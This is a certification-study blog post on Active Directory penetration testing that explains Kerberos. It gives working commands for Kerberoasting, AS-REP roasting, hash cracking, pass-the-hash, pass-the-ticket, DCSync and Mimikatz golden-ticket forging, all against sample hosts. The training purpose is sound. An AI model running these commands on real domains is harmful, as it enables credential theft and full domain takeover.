





Active Directory (AD) is the central identity and access management architecture utilized by over 90% of Fortune 500 enterprises. Consequently, the **eCPPT (eLearnSecurity Certified Professional Penetration Tester)** curriculum places significant emphasis on assessing Windows domain environments—transitioning from an initial domain foothold to full **Domain Admin** escalation and establishing persistent control.

In this deep dive, we break down Active Directory architecture, analyze the internal workings of the **Kerberos** authentication protocol, evaluate domain relationships via **BloodHound**, execute ticket-based attacks (**Kerberoasting** and **AS-REP Roasting**), and establish domain persistence using **Golden and Silver Tickets**.

---

### Series Navigation

| **Previous Part** | **Current Part** | **Next Part** |
| :---: | :---: | :---: |
| [Part 3: Network Penetration Testing & MITM](/posts/ecppt-v3-part-3-network-penetration-testing/) | **Part 4: Active Directory Pentesting & Kerberos** | [Part 5: Windows & Linux Privilege Escalation](/posts/ecppt-v3-part-5-privilege-escalation-playbook/) |

---

## Key Takeaways

* **Kerberos 5-Step Protocol Architecture**: Authentication is orchestrated by the Key Distribution Center (KDC) via two sub-services: the Authentication Service (AS), which issues Ticket Granting Tickets (TGTs), and the Ticket Granting Service (TGS), which issues service-specific session tickets.
* **Kerberoasting Service Accounts**: Any authenticated domain user can legally request a TGS ticket for any account configured with a Service Principal Name (SPN). Because portions of the TGS ticket are encrypted with the target service account's NTLM password hash, the ticket can be extracted from memory and cracked offline without triggering account lockout policies.
* **AS-REP Roasting**: Accounts configured with the `DONT_REQ_PREAUTH` flag allow an unauthenticated attacker to request an AS-REP ticket without supplying a password. The returned encrypted timestamp can be cracked offline with Hashcat.
* **Credential Replay Attacks**: Cleartext passwords are rarely required in Active Directory. Attackers can leverage **Pass-the-Hash (PtH)** to execute remote commands using NTLM hashes, or use **Pass-the-Ticket (PtT)** to inject harvested `.kirbi` tickets directly into memory.
* **Enterprise Persistence**: Compromising the `krbtgt` account hash enables attackers to forge **Golden Tickets** (forged TGTs granting arbitrary group memberships across the domain). Conversely, **Silver Tickets** forge TGS tickets for specific services without ever communicating with the Domain Controller.

---

## 1. Active Directory Architecture Overview

Active Directory organizes enterprise resources into a hierarchical logical structure:

* **Forest**: The top-level security and administrative boundary; all domains within a forest share a single schema and Global Catalog.
* **Domain**: A logical security boundary sharing a unified database managed by one or more **Domain Controllers (DCs)**.
* **Organizational Units (OUs)**: Sub-containers within domains used to group user accounts, security groups, and computer objects, allowing granular Group Policy Objects (GPOs) to be applied.
* **Trust Relationships**: Architectural links allowing users from one domain to access resources in another (one-way, two-way, transitive, external, or forest trusts).

---

## 2. Domain Enumeration & Attack Path Analysis

### Manual Auditing via PowerView:

```powershell
# Import the PowerView offensive automation script
Import-Module .\PowerView.ps1

# Retrieve core domain metadata and password policy parameters
Get-Domain
Get-DomainPolicy

# Enumerate active domain accounts with sensitive descriptions
Get-DomainUser -Properties samaccountname,description | Out-GridView

# List all members of the high-privilege Domain Admins security group
Get-DomainGroupMember -Identity "Domain Admins"

# Discover workstations where the current user holds local administrative rights
Find-LocalAdminAccess
```

### Graph Theory Attack Path Analysis with BloodHound:

**BloodHound** ingests domain relationships and uses graph theory (via Neo4j) to map indirect permission abuse chains leading to Domain Admin compromise:



```powershell
# Ingest comprehensive Active Directory relationship data using SharpHound
Invoke-BloodHound -CollectionMethods All -OutputDirectory C:\Temp -ZipFileName ad_loot.zip
```

Once imported into the BloodHound GUI, we execute pre-built Cypher graph queries such as:
* `Find Shortest Paths to Domain Admins`
* `Find Shortest Paths from Kerberoastable Users`
* `Shortest Paths to High Value Targets`

---

## 3. Kerberos Protocol Mechanics Deconstructed

Kerberos relies on symmetric cryptography and mutual authentication:



---

## 4. Executing Modern Kerberos Attacks

### 1. Kerberoasting

We enumerate service accounts possessing registered **Service Principal Names (SPNs)**, request a TGS ticket, and output it in Hashcat-compatible format:

```powershell
# Extract Kerberos TGS tickets inside Windows using Rubeus
.\Rubeus.exe kerberoast /outfile:kerb_hashes.txt /format:hashcat

# Or perform remotely from Kali Linux via Impacket's GetUserSPNs
GetUserSPNs.py inlanefreight.local/forend:Password123 -dc-ip 10.10.10.50 -request -outputfile kerb_hashes.txt
```

```bash
# Crack the extracted TGS ticket offline using Hashcat (Mode 13100: Kerberos 5 TGS-REP etype 23)
hashcat -m 13100 kerb_hashes.txt /usr/share/wordlists/rockyou.txt -O
```

---

### 2. AS-REP Roasting

Targeting accounts that have the `Do not require Kerberos preauthentication` flag (`DONT_REQ_PREAUTH`) enabled:

```bash
# Query the domain for Pre-Auth Disabled accounts and request AS-REP responses
GetNPUsers.py inlanefreight.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt -dc-ip 10.10.10.50
```

```bash
# Crack the AS-REP ciphertext offline using Hashcat (Mode 18200: Kerberos 5 AS-REP etype 23)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt -O
```

---

## 5. Lateral Movement & Credential Replay

### 1. Pass-the-Hash (PtH)
If an NTLM hash of an administrative account is captured from memory (via Mimikatz or LSASS dumping), it can be used directly for lateral movement without cracking:

```bash
# Semi-interactive administrative command execution via Impacket wmiexec
wmiexec.py -hashes :7fc07bbe74664a7726da442b439aa4b5 Administrator@10.10.10.60

# Subnet-wide credential validation and execution using CrackMapExec
crackmapexec smb 10.10.10.0/24 -u Administrator -H 7fc07bbe74664a7726da442b439aa4b5 --exec-method smbexec -x "whoami"
```

### 2. Pass-the-Ticket (PtT)
Injecting harvested Kerberos tickets (`.kirbi` on Windows or `.ccache` on Linux) directly into the current logon session:

```powershell
# Extract active Kerberos tickets from memory using Rubeus
.\Rubeus.exe dump

# Inject the extracted ticket into the current session context
.\Rubeus.exe ptt /ticket:doIEwjCCBL6gAwIBBaEDAgEWooIE...kirbi

# Verify ticket presence in memory and access restricted domain shares
klist
dir \\DC01.inlanefreight.local\c$
```

---

## 6. Enterprise Persistence Mechanisms

### 1. The DCSync Attack
By leveraging the Directory Replication Service (DRS) Remote Protocol APIs (`DS-Replication-Get-Changes-All`), an attacker with administrative delegation rights can impersonate a Domain Controller and request password hashes for any account directly from the primary DC:

```bash
# Extract the NTLM hash of the krbtgt account without running code on the DC itself!
secretsdump.py inlanefreight.local/da_user:SuperPass123@10.10.10.50 -just-dc-user krbtgt
```

### 2. Golden Tickets vs. Silver Tickets



#### Forging and Injecting a Golden Ticket via Mimikatz:

```powershell
mimikatz # kerberos::golden /user:Administrator /domain:inlanefreight.local /sid:S-1-5-21-1337-4242-9999 /krbtgt:b2a59a3... /id:500 /ptt
```

---

---

## Visual Architecture: Kerberos Authentication Flow & Attack Graph

The following technical diagram contrasts the 5-step Kerberos protocol exchange with the exact interception points for Kerberoasting and AS-REP Roasting, alongside BloodHound shortest attack paths:



### Key Architectural Observations from the Diagram:
1. **The Kerberoasting Vulnerability**: Notice step 4 of the exchange. When a user requests access to an SPN, the KDC issues a TGS ticket encrypted with the **target service account's NTLM password hash**. Because the client must deliver this ticket to the service, the client receives the encrypted blob, allowing offline brute-force attacks against weak service passwords.
2. **Golden vs. Silver Tickets**: A Golden Ticket requires the `krbtgt` account hash and forges a TGT (Ticket Granting Ticket), making it effective across the entire forest. A Silver Ticket requires only the specific service account's hash, forging a TGS ticket directly. Because the service validates the ticket using its own secret key, **a Silver Ticket never communicates with the Domain Controller**, making it invisible in DC security event logs!

---

## Attack Chain Interconnection: Escalating from Domain User to Forest Enterprise Admin

Active Directory penetration testing represents the strategic center of an internal enterprise compromise:



* **Connection to Part 5 (Privilege Escalation)**: Once BloodHound identifies a workstation on which your domain user has local administrator rights, you execute local privilege escalation (Part 5) to dump the LSASS memory of logged-in Domain Admins.
* **Connection to Part 6 (Pivoting)**: Using harvested NTLM hashes or Kerberos tickets, you establish SOCKS tunnels via Ligolo-ng or SSH (Part 6) to remotely compromise Domain Controllers located in isolated server subnets.

---

## Categorized References & Authoritative Sources

### 1. Microsoft Protocol Standards & Whitepapers
* **Microsoft MS-KILE**: Kerberos Protocol Extensions Specification. [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/).
* **Microsoft MS-DRSR**: Directory Replication Service Remote Protocol (DCSync Primitives).
* **Sean Metcalf's ADSecurity.org**: The premier technical blog on Active Directory security and Kerberos attacks. [https://adsecurity.org/](https://adsecurity.org/).

### 2. Industry-Standard Offensive AD Tooling
* **BloodHound by SpecterOps**: Six Degrees of Domain Admin graph analysis. [https://github.com/SpecterOps/BloodHound](https://github.com/SpecterOps/BloodHound).
* **Rubeus by HarmJ0y (Will Schroeder)**: C# toolset for raw Kerberos interaction. [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus).
* **Mimikatz by Benjamin Delpy**: Extraction of plaintext passwords, hashes, and ticket forging. [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz).

### 3. MITRE ATT&CK Enterprise Techniques
* **T1558.003**: Steal or Forge Kerberos Tickets: Kerberoasting. [https://attack.mitre.org/techniques/T1558/003/](https://attack.mitre.org/techniques/T1558/003/).
* **T1558.004**: Steal or Forge Kerberos Tickets: AS-REP Roasting. [https://attack.mitre.org/techniques/T1558/004/](https://attack.mitre.org/techniques/T1558/004/).
* **T1558.001**: Steal or Forge Kerberos Tickets: Golden Ticket. [https://attack.mitre.org/techniques/T1558/001/](https://attack.mitre.org/techniques/T1558/001/).
* **T1003.006**: OS Credential Dumping: DCSync. [https://attack.mitre.org/techniques/T1003/006/](https://attack.mitre.org/techniques/T1003/006/).

---

*Author: Abdulrahman M. Fathi (0x3bdo) • Cyber Security Engineer & Penetration Tester*
